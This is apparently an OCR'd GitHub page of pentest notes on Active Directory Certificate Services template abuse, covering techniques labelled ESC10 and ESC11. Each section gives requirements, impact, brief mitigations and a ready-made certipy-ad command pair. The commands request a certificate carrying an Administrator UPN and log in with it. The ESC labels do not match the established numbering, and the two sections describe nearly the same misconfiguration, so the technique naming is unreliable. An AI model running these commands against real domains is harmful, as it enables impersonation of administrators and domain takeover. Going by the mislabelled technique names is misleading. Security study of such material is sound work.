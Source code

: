 
# ESC10 – Authenticated Template Spoofing via UPN Injection
If you can supply your own UPN during certificate enrollment, and the CA doesn't validate it properly, you can impersonate another user (e.g., Administrator).

## Requirements:
- You can request a cert from a template with:
  - `ENROLLEE_SUPPLIES_SUBJECT = True`
  - `Client Authentication` EKU
- UPN is not validated or restricted during issuance

## Impact:
You receive a cert with `Administrator@domain.local` as UPN, and can use it to authenticate as that user.

## Example:
```bash
certipy-ad req -u attacker -p password \
  -template AnyPurposeTemplate \
  -upn 'Administrator@domain.local' \
  -ca 'ca.domain.local\CA-NAME' \
  -pfx admin.pfx
certipy-ad auth -pfx admin.pfx
```

## Mitigation:
- Enforce UPN validation on CA
- Require approval workflows or manager approval
- Restrict subject name supply capabilities

---

# ESC11 – Misconfigured Smartcard Logon Template Abuse
Smartcard logon templates can be abused if they’re misconfigured to allow self-enrollment without validating subject or SAN fields.

## Requirements:
- Template supports Smartcard Logon
- You can enroll and supply arbitrary subject or SAN
- CA doesn't validate or restrict values

## Impact:
You can authenticate as a privileged user by issuing a smartcard certificate for them.

## Example:
```bash
certipy-ad req -u attacker -p password \
  -template SmartcardTemplate \
  -ca 'ca.domain.local\CA-NAME' \
  -upn 'Administrator@domain.local' \
  -pfx smartcard.pfx
certipy-ad auth -pfx smartcard.pfx
```

